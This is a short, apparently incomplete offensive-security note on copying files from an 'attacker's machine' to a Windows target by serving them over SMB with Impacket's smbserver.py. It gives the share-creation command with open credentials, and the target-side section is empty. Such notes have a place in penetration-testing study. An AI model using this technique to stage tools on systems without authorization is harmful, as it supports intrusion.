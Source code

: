 
We can use an SMB server to copy files into a windows box from our attacker's machine


#### On the attacker's end

Create an SMB share in the folder where your sharable files are stored

```python
smbserver.py <share_name> <share_path> -ts -smb2support -username any -password any
```



#### On the target machine


